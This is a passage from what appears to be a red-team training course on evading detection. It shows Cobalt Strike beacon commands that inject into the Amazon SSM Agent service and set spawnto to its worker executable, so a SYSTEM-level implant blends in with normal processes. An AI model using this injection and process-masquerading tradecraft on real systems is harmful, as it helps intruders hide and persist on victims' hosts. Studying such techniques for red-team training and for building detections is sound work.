 ![](https://rto2-assets.s3.eu-west-2.amazonaws.com/evasion/session-prep/spawnto-notepad.png)

The other option, is if we want to maintain our SYSTEM level access in Session 0.  The strategy that makes the most sense to me is to hide ourselves as a child of an existing service executable.  Most of these are found as children of **services.exe** (the "Services and Controller app") and the vast majority of default Windows services run as **svchost.exe**.  Many of these will also spawn their own children such as SearchApp.exe, taskhostw.exe, ctfmon.exe and others.

The "problem" with these core Windows processes is that they are protected, so you can't arbitrarily open handles to them, even as SYSTEM.
```
beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> inject 840 x64 smb
[-] could not open process 840: 5
[-] could not connect to pipe
```

A more reliable bet is to find a third-party service, because they will often have a lower level of protection.  Let's have a look at the Amazon SSM Agent as an example.

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/evasion/session-prep/ssm-agent.png)

**amazon-ssm-agent.exe** is the service executable for the AmazonSSMAgent service.
```
SERVICE_NAME: AmazonSSMAgent
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Amazon SSM Agent
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

This service spawns **ssm-agent-worker.exe** as children.  This could be a good candidate - we could inject into the agent process and set our spawnto to the worker executable.
```
beacon> inject 2796 x64 smb
[+] established link to child beacon: 10.10.120.75

beacon> spawnto x64 %ProgramFiles%\Amazon\SSM\ssm-agent-worker.exe
```

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/evasion/session-prep/agent-worker.png)

These are just some examples based on the situation you find yourself in.  You should be willing to enumerate a host and adapt to blend into what looks "normal".

# Image Load Events
